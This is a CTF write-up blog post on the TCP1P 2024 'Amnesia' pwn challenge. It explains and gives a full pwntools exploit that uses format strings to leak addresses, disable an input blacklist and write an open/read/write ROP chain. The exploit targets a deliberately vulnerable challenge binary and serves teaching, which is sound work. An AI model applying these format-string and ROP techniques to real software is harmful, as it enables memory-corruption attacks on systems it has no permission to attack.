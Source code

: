 ```yaml
---
title: TCP1P 2024 - My PWN Write_ups
date: 2024-10-12
categories: [CTF, writeup]
tags: [ctf, writeup, TCP1P]     # TAG names should always be lowercase
---
```


<center><h1>TCP1P 2024 - My PWN Write-Ups</h1></center>

This weekend I have been participating solo in the TCP1P CTF 2024. I really enjoyed this CTF. I ended up solving some pretty good challenges and finished in 23rd place. As always, I focused on PWN, and here are my Write-Ups for the best challenges I solved.  
![Amnesia](https://raw.githubusercontent.com/elchals/elchals.github.io/main/_posts/2024-10-13_Imges/Puntuacion.png)

## Amnesia
![Puntuacion](https://raw.githubusercontent.com/elchals/elchals.github.io/main/_posts/2024-10-13_Imges/amnesia.png)


- **Category:** Pwn.  
- **Points:** 221
- **Solves:** 11  
- **Author:** itoid  

## Description
Amnesia is the typical challenge with a vulnerable format string, but with certain limitations to make our life a bit harder. The program has a first format string that accepts up to 188 characters, after which there is a loop that runs infinitely until we decide to terminate the program by writing **I remember everything!**. Inside that loop, there is another vulnerable format string, but it only accepts up to 32 characters. The format strings are checked against a blacklist that prohibits the use of the characters $, p, and x. The file has all the typical protections enabled and the syscalls **execve** and **execveat** are prohibited by seccomp.   
```sh
➜  Amnesia checksec amnesia
[*] '/home/elchals/CTFs/Tcp1p/Amnesia/amnesia'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
```  

I take advantage of the first format string to get all the necessary leaks: Text base, Libc base, and Stack. Since p and $ are prohibited, I have to use %c and %ld.  
With the following format string, I am going to overwrite the blacklist, because since I now only have 32 characters in the format string and can't use $, it becomes impossible to do anything more useful. In the first iteration, I overwrite the $ with any number.  
```py
payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
```
And in the second iteration, since I can now use $, I place a NULL byte to disable the blacklist.  
```py
payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
```
From now on, since we can use the $, I write a ROP chain starting from the return address of the function to open the flag.txt, read, and write its content. I write it character by character since 32 bytes aren't enough for anything more.  
Finally, by writing **I remember everything!**, I trigger the termination of the program and the execution of the ROP chain.  

## Code
```py
#!/bin/python3
from pwn import *

context.log_level = 'INFO'
context.terminal = ['remotinator', 'vsplit', '-x']
context.arch = 'amd64'

######################################################################################

process_name = './amnesia_patched'
elf = context.binary = ELF(process_name)
libc = ELF('./libc.so.6')

HOST = "ctf.tcp1p.team"
PORT = 20037

######################################################################################

gdb_script = f'''
    breakrva 0x16d5
    continue
    '''

######################################################################################

def connect():
    if args.REMOTE:
        print(f"[*] Connecting to {HOST} : {PORT}")
        p = remote(HOST, PORT)
    elif args.GDB:
        print(f'[*] Debugging {elf.path}.')
        p = gdb.debug([elf.path], gdbscript=gdb_script)
    else:
        print(f'[*] Executing {elf.path}.')
        p = process([elf.path], aslr=False)
    return p

## Write one byte.
def change_byte(addr, b):
    if b == 0:
        b = 0x100
    payload = f'%{b}c%11$hhn'.encode().ljust(24, b'\x41')
    payload += p64(addr)
    print(payload)
    p.sendlineafter(b'remember?', payload)

######################################################################################

p = connect()

## Leaking things
payload  = b'%c' * 2
payload += b'||%ld||'
payload += b'%c'
payload += b'||%ld||'
payload += b'%c' * 35
payload += b'%||%ld||'

p.sendlineafter(b'you?', payload)
p.recvuntil(b'||')
libc.address = int(p.recvuntil(b'||')[:-2]) - (0x70fe15514887 - 0x70fe15400000)
print("[i] Libc Address:", hex(libc.address))

p.recvuntil(b'||')
stack = int(p.recvuntil(b'||')[:-2])
print("[i] Stack:", hex(stack))

rip = stack + (0x7ffcb0edf088 - 0x7ffcb0edea30) 
print("[i] RIP:", hex(rip))

p.recvuntil(b'||')
elf.address = int(p.recvuntil(b'||')[:-2]) - (0x5b435bdd36f7 - 0x5b435bdd2000)
print("[i] .text:", hex(elf.address))

## Overwriting Blacklist
format = elf.address + (0x65066ca92010 - 0x65066ca8e000)    # Blacklist address

payload = b'%c%c%d%c%d%c%c%c%c%c%hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

payload = b'%256c%11$hhn'.ljust(24, b'\x41')
payload += p64(format)
print(payload)
p.sendlineafter(b'remember?', payload)

## Writing flag.txt to bss section
bss = elf.address + (0x63e12b96f000 - 0x63e12b96b000) + 0x900
print("[i] BSS:", hex(bss))

flag = b'flag.txt\x00'
idx = 0
for b in flag:
    change_byte(bss + idx, b)
    idx += 1

## ROP
context.arch = 'amd64'
rop_libc = ROP(libc)

pop_rsi  = p64(rop_libc.find_gadget(['pop rsi', 'ret'])[0])
pop_rdi  = p64(rop_libc.find_gadget(['pop rdi', 'ret'])[0])
ret      = p64(rop_libc.find_gadget(['ret'])[0])
pop_rdx_rbx  = p64(libc.address + 0x00000000000904a9) # pop rdx ; pop rbx ; ret
pop_rax  = p64(rop_libc.find_gadget(['pop rax', 'ret'])[0])
push_rax = p64(libc.address + 0x0000000000041563) # push rax ; ret
mov_edi_eax = p64(libc.address + 0x000000000012684c) # mov edi, eax ; call rdx

payload  = pop_rdi
payload += p64(bss)
payload += pop_rsi
payload += p64(0)
payload += p64(libc.sym.open)

payload += pop_rdx_rbx
payload += pop_rsi * 2
payload += mov_edi_eax
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.read)

payload += pop_rdi
payload += p64(1)
payload += pop_rsi
payload += p64(bss)
payload += pop_rdx_rbx
payload += p64(0x100) * 2
payload += p64(libc.sym.write)

idx = 0
for b in payload:
    change_byte(rip + idx, b)
    idx += 1

p.sendlineafter(b'remember?', b'I remember everything!')

######################################################################################

p.interactive()
```
